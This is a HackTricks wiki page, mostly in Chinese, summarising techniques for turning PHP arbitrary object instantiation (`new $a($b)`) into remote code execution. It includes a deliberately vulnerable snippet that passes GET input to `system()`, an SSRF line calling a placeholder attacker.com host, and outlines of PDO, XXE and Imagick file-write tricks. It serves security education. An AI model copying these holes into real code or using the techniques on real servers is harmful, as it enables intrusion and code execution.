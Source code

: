 # PHP - RCE abusing object creation: new $\_GET\["a"]\($\_GET\["b"])

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

这基本上是对 [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) 的总结

## 介绍

创建新的任意对象，例如 `new $_GET["a"]($_GET["a"])`，可能导致远程代码执行 (RCE)，详细信息见 [**写作**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)。本文档强调了实现 RCE 的各种策略。

## 通过自定义类或自动加载实现 RCE

语法 `new $a($b)` 用于实例化一个对象，其中 **`$a`** 代表类名，**`$b`** 是传递给构造函数的第一个参数。这些变量可以来自用户输入，如 GET/POST，它们可以是字符串或数组，或来自 JSON，它们可能呈现为其他类型。

考虑下面的代码片段：
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
在这种情况下，将 `$a` 设置为 `App` 或 `App2`，并将 `$b` 设置为系统命令（例如，`uname -a`）会导致该命令的执行。

**自动加载函数** 可以被利用，如果没有这样的类可以直接访问。这些函数在需要时会自动从文件加载类，并使用 `spl_autoload_register` 或 `__autoload` 定义：
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
autoloading的行为因PHP版本而异，提供不同的RCE可能性。

## 通过内置类进行RCE

在缺乏自定义类或自动加载器的情况下，**内置PHP类**可能足以实现RCE。这些类的数量根据PHP版本和扩展的不同而在100到200之间。可以使用`get_declared_classes()`列出它们。

可以通过反射API识别感兴趣的构造函数，如以下示例和链接所示 [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF)。

**通过特定方法进行RCE包括：**

### **SSRF + Phar反序列化**

`SplFileObject`类通过其构造函数启用SSRF，允许连接到任何URL：
```php
new SplFileObject('http://attacker.com/');
```
SSRF 可以导致在 PHP 8.0 之前的版本中使用 Phar 协议的反序列化攻击。

### **利用 PDOs**

PDO 类构造函数允许通过 DSN 字符串连接到数据库，可能会启用文件创建或其他交互：
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

PHP 版本高达 5.3.22 和 5.4.12 易受通过 `SoapClient` 和 `SimpleXMLElement` 构造函数的 XXE 攻击，这取决于 libxml2 的版本。

## RCE 通过 Imagick 扩展

在对 **项目依赖** 的分析中，发现 **Imagick** 可以通过实例化新对象来实现 **命令执行**。这为利用漏洞提供了机会。

### VID 解析器

识别到 VID 解析器具有将内容写入文件系统中任何指定路径的能力。这可能导致在可通过网络访问的目录中放置 PHP shell，从而实现远程代码执行 (RCE)。

#### VID 解析器 + 文件上传

注意到 PHP 会将上传的文件临时存储在 `/tmp/phpXXXXXX` 中。Imagick 中的 VID 解析器利用 **msl** 协议，可以处理文件路径中的通配符，便于将临时文件转移到所选位置。这种方法提供了在文件系统内实现任意文件写入的额外途径。

### PHP 崩溃 + 暴力破解

在 [**原始写作**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) 中描述的方法涉及上传触发服务器崩溃的文件，然后再删除。通过暴力破解临时文件的名称，Imagick 可以执行任意 PHP 代码。然而，这种技术仅在过时的 ImageMagick 版本中有效。

## 参考文献

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

